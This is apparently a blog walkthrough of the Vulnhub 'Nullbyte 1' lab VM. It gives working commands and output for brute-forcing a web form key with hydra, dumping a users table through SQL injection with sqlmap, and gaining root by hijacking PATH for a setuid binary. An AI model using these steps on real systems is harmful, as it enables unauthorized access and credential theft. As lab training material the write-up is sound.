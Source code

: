 ```yaml
---
comments: true
date: 2015-08-25T00:00:00Z
image:
  credit: null
  creditlink: null
  feature: null
modified: 2015-08-25 11:25:15 +0100
share: null
tags:
- walkthrough
- nullbyte
- vulnhub
- security
- solution
- NB0x01
title: Nullbyte 1 solution
url: /2015/08/25/nullbyte-1-solution/
---
```


I've been AFK for a while because of various reasons, but now I'm back and have
managed to scrape a little time together to get on with some of [Vulnhub's](https://vulnhub.com)
new VMs. 

So let's start with [Nullbyte 1](https://www.vulnhub.com/entry/nullbyte-1,126/)

# Stage 1

I ran the usual service discovery and found:

{{< highlight bash >}}
root@kali:~# nmap -sV 192.168.56.101

Starting Nmap 6.49BETA4 ( https://nmap.org ) at 2015-08-25 11:29 BST
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
777/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{{< / highlight >}}

HTTP server on 80 and ssh on 777. I'm going to take the straightforward one, and head
to the HTTP server first.

Upon opening the page I only get an image and some text

{{< figure src="http://i.imgur.com/SlVGKol.png" >}}

I ran `dirbuster` on the root and got a couple of hits: `uploads` and `phpmyadmin`. The first had disabled directory listing
and the second was a no go, but at least told me there was a SQL server available somewhere.

The source of the page doesn't reveal anything else either, so that last place we might be able to find something
is the image itself. There doesn't appear to be any steganography involved here and nothing in the hexdump of the image
either. Well, let me take a look at the EXIF data then.

{{< highlight bash >}}
root@kali:~/Downloads# exiftool main.gif 
ExifTool Version Number         : 9.74
File Name                       : main.gif
Directory                       : .
File Size                       : 16 kB
File Modification Date/Time     : 2015:08:25 10:27:37+01:00
File Access Date/Time           : 2015:08:25 10:28:35+01:00
File Inode Change Date/Time     : 2015:08:25 10:27:37+01:00
File Permissions                : rw-r--r--
File Type                       : GIF
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
{{< / highlight >}}

Hrmm, that comment looks unusual. Let's try that in the URL. Initially I got a 404
but that's because I didn't remove the `P-): `. Hitting `http://192.168.56.101/kzMb5nVYJw`
takes me to a form asking for a key.

# Stage 2

Typing in something random just shows `invalid key`. Ok, let me take a look at the source,
see where this thing goes.

{{< highlight html >}}

<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form> 
</center>
<!-- this form isn't connected to mysql, password ain't that complex --!>
{{< / highlight >}}

Ok, so no SQLi here then, and the password isn't complex either. I'm guessing
a simple wordlist might solve this for me. Time to break out `hydra` for this:

{{< highlight bash >}}
root@kali:~# hydra 192.168.56.101 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P /usr/share/dict/words -t 10 -w 30
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-25 11:41:58
[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
[DATA] attacking service http-post-form on port 80
[STATUS] 18687.00 tries/min, 18687 tries in 00:01h, 80484 todo in 00:05h, 10 active
[80][http-post-form] host: 192.168.56.101   login: x   password: elite
1 of 1 target successfully completed, 1 valid password found
{{< / highlight >}}

Bingo. Once I enter that into the field I am able to search for usernames.

# Stage 3

Entering all sorts of names reveals nothing. At this point I am guessing this
is the part that is backed by a SQL database. Although usernames and the usual
SQLi synbols don't do much, entering nothing dumps multiple records. Maybe I will
try to `sqlmap` the URL to see if there's any vulnerabilities there

{{< highlight bash >}}
root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=

<snip>

[11:13:26] [INFO] GET parameter 'usrtosearch' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT - comment)' injectable 
[11:13:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[11:13:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:13:26] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:13:26] [INFO] target URL appears to have 3 columns in query
[11:13:26] [INFO] GET parameter 'usrtosearch' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
{{< / highlight >}}

Result! Using this we can now dump the databasenames, tables, and data in the DB

(output shortened for clarity)
{{< highlight bash >}}
root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --current-db
back-end DBMS: MySQL 5.0.12
[11:13:44] [INFO] fetching current database
current database:    'seth'

root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --tables -D seth
[11:13:55] [INFO] fetching tables for database: 'seth'
Database: seth
[1 table]
+-------+
| users |
+-------+


root@kali:~# sqlmap -u http://192.168.56.101/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump -D seth -T users
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
{{< / highlight >}}

An MD5 hashed password? I best put that through [md5decoder](http://md5decoder.org/) to
be rewarded with the password `omega`

# stage 4

Turns out that this is ramses's password on the ssh service that's running on 
port 777 on the VM. So I'll connect to that and have a look at what's going on there.

Not much in his home directory, so I'll checkout what he's been up to

{{< highlight bash >}}
ramses@NullByte:~$ cat .bash_history 
sudo -s
su eric
exit
ls
clear
cd /var/www
cd backup/
ls
./procwatch 
clear
sudo -s
cd /
ls
exit
{{< / highlight >}}

Interesting, ramses has something in `/var/www`. Seems like a setuid root
binary called `procwatch`. After running it I would assume that it's just running `ps`
to return a list of processes. If I run `ps` on its own, I get the same output (minus
procwatch of course)

So let's see if it calls `ps` with an absolute path, or not. As a quick test I'll create
a symlink to `ls` in the current directory and name it `ps`. Then I set the `PATH` environment variable
with the current dir at the front.

{{< highlight bash >}}
ramses@NullByte:/var/www/backup$ ln -s /bin/ls ps
ramses@NullByte:/var/www/backup$ export PATH=`pwd`:${PATH}
ramses@NullByte:/var/www/backup$ ./procwatch 
ls  procwatch  ps  readme.txt
{{< / highlight >}}

Excellent, it just calls `ps` without a path. A classic issue you can often
find in programs that call other programs.

So let me leverage this to get myself a root shell and ultimately the flag

{{< highlight bash >}}
ramses@NullByte:/var/www/backup$ ln -snf /bin/sh ps
ramses@NullByte:/var/www/backup$ ./procwatch 
# whoami 
root
# cat /root/proof.txt
[OUTPUT CUT]
{{< / highlight >}}

And that concludes the NullByte VM walkthrough. A nice little machine with some fun
challenges. Thanks to ly0n for creating it.

